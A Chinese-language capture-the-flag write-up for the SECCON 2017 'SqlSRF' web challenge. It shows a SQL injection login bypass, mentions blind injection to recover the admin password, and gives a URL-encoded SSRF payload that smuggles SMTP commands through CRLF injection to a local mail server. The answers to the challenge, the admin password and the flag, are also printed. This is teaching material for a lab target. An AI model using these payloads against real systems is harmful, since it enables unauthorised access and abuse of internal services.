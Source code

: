 # SECCON CTF QUALS 2017 : SqlSRF

**category** : web
**points** : 400

> The root reply the flag to your mail address if you send a mail that subject is "give me flag" to root.
>
> http://sqlsrf.pwn.seccon.jp/sqlsrf/

## write-up

我們可以看到 index.cgi 的原始碼

這行有 sql injection `"SELECT password FROM users WHERE username='".$q->param('user')."';"`

看原始碼也可以知道他是用 sqlite

他會把 select 出來的東西跟 encrypt(param['pass']) 比較，一樣就可以登入了

另外，如果句選 Remember Me 的話，他會幫你把 encrypt(param['user']) 存在 cookie 裡面，然後幫你解密放在 user 的 input box ( 我們可以加解密任意字>串 )

所以先得到 encrypt('oalieno') = '6102b0591250cea64f303ec4a9c6425f'

user 放 `' union select '6102b0591250cea64f303ec4a9c6425f' -- `

pass 放 `oalieno`

就可以順利登入了

![](https://i.imgur.com/EQqOS9M.png)

在 menu.cgi 我們可以按 `netstat -tnl` 但是不能用 `wget --debug -O /dev/stdout 'http://{}'` ( 需要 admin )

![](https://i.imgur.com/9q6DY8Q.png)

所以我們回過頭來用 sql blind injection 取得 admin 的密碼 ([solve.py](SqlSRF/solve.py))

密碼是 encrypt 過的 ( 長度 32 ) 同樣用 Remember Me 解密

admin password = decrypt(d2f37e101c0e76bcc90b5634a5510f64) = 'Yes!Kusomon!!'

成功用 admin 登入後就可以用 wget 發 request

剛剛用 netstat 可以看到 `127.0.0.1:25` 這台 local 的 SMTP server

直接 wget `127.0.0.1:25` 的話可以看到 SMTP server 會把我們的 http request 的每一行都當成 SMTP 的指令來看

![](https://i.imgur.com/a0Mdg7W.png)

那我們就用 `%0d%0a` 來下 SMTP 指令寄信給 `root`

```
127.0.0.1
HELO oalieno
MAIL From: <xxx@gmail.com>
RCPT To: <root>
DATA
Subject: give me flag
oalieno
.
:25/
```

把上面的東東做 urlencode 就可以了

final payload : `127.0.0.1%0D%0AHELO%20oalieno%0D%0AMAIL%20From%3A%20%3Cxxx%40gmail.com%3E%0D%0ARCPT%20To%3A%20%3Croot%3E%0D%0ADATA%0D%0ASubject%3A%20give%20me%20flag%0D%0Aoalieno%0D%0A.%0D%0A:25/`

然後就收到信了XD

![](https://i.imgur.com/OEwnXKM.png)

但是 flag 也被 encrypt 過，那就同樣用 Remember Me 解密

flag : SECCON{SSRFisMyFriend!}

## other write-ups and resources

* https://bongtrop.github.io/SECCON2017-Writeup/#sqlsrf-400-points
* https://ctftime.org/writeup/8339
* https://ctftime.org/writeup/8331
* https://github.com/p4-team/ctf/tree/master/2017-12-09-seccon-quals/web_sqlsrf
* https://ctftime.org/writeup/8308
